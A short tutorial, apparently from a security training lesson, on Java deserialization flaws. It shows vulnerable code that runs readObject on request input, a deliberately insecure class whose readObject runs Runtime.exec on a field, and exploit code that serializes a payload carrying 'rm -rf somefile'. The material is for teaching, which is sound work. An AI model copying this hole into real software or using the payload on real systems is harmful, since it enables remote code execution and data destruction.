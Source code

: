 ## The Simplest Exploit

### Vulnerable code

The following is a well-known example for a Java Deserialization vulnerability.

```java
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
```

It is expecting an `AcmeObject` object, but it will execute `readObject()` before the casting ocurs. If an attacker finds the proper class implementing dangerous operations in `readObject()`, he could serialize that object and force the vulnerable application to performe those actions.

### Class included in ClassPath

Attackers need to find a class in the classpath that supports serialization and with dangerous implementations on `readObject()`.

```java
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

        private static final long serialVersionUID = 1;

        private String taskName;
        private String taskAction;
        private LocalDateTime requestedExecutionTime;

        public VulnerableTaskHolder(String taskName, String taskAction) {
                super();
                this.taskName = taskName;
                this.taskAction = taskAction;
                this.requestedExecutionTime = LocalDateTime.now();
        }

        private void readObject( ObjectInputStream stream ) throws Exception {
        //deserialize data so taskName and taskAction are available
                stream.defaultReadObject();

                //blindly run some code. #code injection
                Runtime.getRuntime().exec(taskAction);
     }
}
```

### Exploit

If the java class shown above exists, attackers can serialize that object and obtain Remote Code Execution.

```java
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
```